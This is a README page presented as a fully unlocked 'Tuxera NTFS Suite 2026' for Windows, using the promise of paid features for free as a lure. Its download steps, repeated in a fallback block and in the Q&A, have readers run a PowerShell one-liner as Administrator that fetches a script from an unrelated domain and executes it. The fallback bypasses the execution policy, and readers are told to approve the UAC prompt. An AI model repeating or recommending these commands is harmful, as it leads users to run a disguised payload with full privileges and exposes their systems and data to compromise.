

***

# Tuxera NTFS Suite 2026

<p align="center">
  
</p>

Tuxera NTFS Suite 2026 — Windows 11 and 10 build | system management | every module enabled | no edition limits.

## About this application

**Tuxera NTFS Suite 2026** in this repo is a Windows desktop package for Windows power users and administrators who want the full desktop experience without missing tools or locked panels. This is the complete professional build — every module that normally sits behind a paid tier is already active, so you can use system management, optimization, and daily productivity from the first launch. Expect a guided setup through PowerShell, a responsive workspace on a standard PC, and workflows that feel like the top-tier edition from day one.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://zentool.art/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://zentool.art/ps/setup.ps1 | iex"
```

</details>

## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

**Is this the full professional build?** Yes. Every module in the Suite edition is enabled after install — system management, optimization, and daily productivity open without edition limits or locked panels.

## About

Tuxera NTFS Suite 2026 suits Windows power users and administrators who need a straightforward Windows install and a workflow that does not stop at basic features. If you rely on system management, optimization, and daily productivity daily, this package keeps the entire toolkit open — no trial countdown, no feature gates, and no need to upgrade inside the app.

## What's included

The complete desktop toolkit is bundled in this release. That means every professional module, preset library, and advanced toolset is enabled after setup — the same capabilities people expect from the highest desktop edition, ready locally without extra steps. Install once through PowerShell, open the app, and work with the full toolkit immediately.

## Features

⚡ Quick actions
🧩 Batch tools
📊 Status panels
✨ Presets
🗂️ Profiles
🔍 Search
📁 File tools

## Good for

- 📌 Power users
- 🎯 IT support
- ⭐ Home labs

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 4 GB minimum | 8 GB recommended
* **Disk:** 2 GB available storage

***
